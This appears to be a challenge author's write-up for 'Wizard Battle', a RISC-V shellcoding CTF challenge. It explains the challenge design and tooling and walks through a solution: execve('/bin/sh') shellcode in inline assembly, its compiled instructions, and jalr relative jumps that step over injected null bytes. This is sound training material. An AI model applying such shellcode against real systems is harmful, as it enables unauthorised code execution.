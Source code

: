 
# Wizard Battle

This challenge is a 64-bit RISC-V shellcoding challenge. The flavortext is a D&D battle / joke about confusing privacy policies. 

The binary is statically linked (making it easier to run locally) and stripped of symbols. The stack is executable. The challenge accepts input from the player and executes it after inserting some zeroes in predictable locations. The player will have to jump over the zeroes, meaning they have to write a little custom shellcode. This is intended to be practice for the ROP challenge.

I borrowed heavily from the deployment for RISC-V challenges in the 2023 Hack-A-Sat quals. Those challenges run with `qemu-user` in Docker containers. See the more extensive write-up for `riscy_voting` for details about how to run those.

## The vulnerability

The user gets to run shellcode on the server.

## Compiling, Running and Debugging RISC-V

[This blog](https://chalkiadakis.me/posts/hack-a-sat-23/riscv-pwn/) goes into detail. Basically, download the RISC-V tool chain and get familiar with using QEMU and `gdb-multiarch` with the instruction set set to RISC-V. I used an Ubuntu 24.04 environment to solve the challenge and deployed the challenge in an Ubuntu 22.04 Docker container to make sure that people on slightly older VMs can still use the tools. Players should expect to have to do a bit of work with tooling to work in this architecture, that's part of the challenge.

## Solution

### Implementing the shellcode

Write a program that executes `execve('/bin/sh',NULL,NULL)`, compile it as 64-bit RISC-V, and take a look at how the compiler produces assembly. (Alternatively, look online for some 64-bit RISC-V shellcode.) Then write another C program that runs the assembly directly. Here's an example:

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdbool.h>

int main(int argc, char **argv) 
{
    //execve("/bin/sh",0,0);
    __asm("li a0, 0x6e69622f\n\t"
          "addi sp,sp,-8\n\t"
          "sd a0,0(sp)\n\t"
          "li a0, 0x0068732f\n\t"
          "sd a0, 4(sp)\n\t"
          "addi a0,sp,0\n\t"
          "li a2,0x0\n\t"
          "li a1,0x0\n\t"
          "li a7,221\n\t"
          "ecall\n\t"
          "li a7,93\n\t"
          "ecall\n\t");
```
This program, which I found in an online blog (and didn't save the reference, but it's quite generic) compiles to the following actual instructions as viewed in `gdb` (working backwards from my notes for the final exploit):
```
lui a0, 0x6e696 # 4 bytes
addiw a0, a0, 559 # 4 bytes
addi sp, sp, -8 # 2 bytes
sd a0, 0(sp) # 2 bytes
lui a0, 0x687 # 4 bytes
addiw a0, a0, 815 # 4 bytes
sd a0, 4(sp) # 4 bytes
mv a0, sp # 2 bytes
li a2, 0 # 2 bytes
li a1, 0 # 2 bytes
li a7, 221 # 4 bytes
ecall # 4 bytes
li a7, 93 # 4 bytes
ecall # 4 bytes
```
Notice the compiler took my original pseudo-instructions that load four-byte integers into registers, and replaced them with manipulations of smaller numbers that allow for both the op code and the operands to all be packed into four bytes.

Next, in a debugger, view the actual bytes of these instructions to generate some shellcode.

Then send the shellcode to run and it will crash because the evil wizard's counterspell overwrites sections of the shellcode with zeroes. One way to deal with this problem is with relative jumps. 

### Implementing local relative jumps

The key is to step into the shellcode with a debugger and look for a register containing an address close to where you want to jump to, and then use a `jalr` jump. Go in there with a debugger and take a look:

![image](./jumping_over_null_bytes.png)

At the start of the shellcode, the program counter and register `a5` point to the start of the shellcode buffer. The first two null bytes appear at offsets 17 and 18 in that buffer. So, we can insert a `jalr a5, 20` instruction into our shellcode at offsets 13-16 that will jump ahead to offset 20, and then continue execution. That instructs the CPU to set the program counter to the value in register `a5` plus 20. We can add such a command to our C program, with two-byte `nop` instructions filling the locations where the program writes null bytes, figure out the appropriate machine code representing those compiled instructions, and place them into our payload to deal with the inserted zeroes. The screenshot shows such a payload with the `jalr` command inserted.

### Full solution

A sample solution is [here](../solver/exploit-wizard-battle.py).

## Design considerations

This is basically a gentle intro to working with the RISC-V toolset and learning about how jump instructions work. I considered making this a longer battle leading up to the shellcode for thematic reasons, but since this is finals I decided to keep the flavortext short with an emphasis on the actual pwning.

To make the challenge harder, we could use `fgets()` instead of `read()` to accept the shellcode, and that would make people have to deal with null bytes, possibly with an unpacker. We can do that if we think we don't have enough hard pwnables.

To make it longer we could also have the evil wizard cast a spell first, and allow the player to cast their own counterspell and cause the spell to fail while still continuing execution. I decided against that because it's not super straightforward to do that without giving the player a way to take control of the return address and confusing them.

I put an "optout" file in the Docker container just for fun. It doesn't do anything but for thematic reasons, techncially people can set it from "0" to "1" when they get into the box.


### Debugging RISC-V running in a Docker container with `QEMU-user`

See the write-up for `riscy_voting`. This shouldn't be as critical for players, because the shellcode section is pretty self-contained and as such it should work pretty similarly on systems running RISC-V. The `Dockerfile` is there as a sanity check for people who want to debug with it, as it is true that the memory layout of `QEMU-user` running RISC-V depends on the OS / container running `QEMU-user`. Players trying to jump to an absolute vs. a relative address with their shellcode may run into this sort of problem, and in such cases the `Dockerfile` may help them.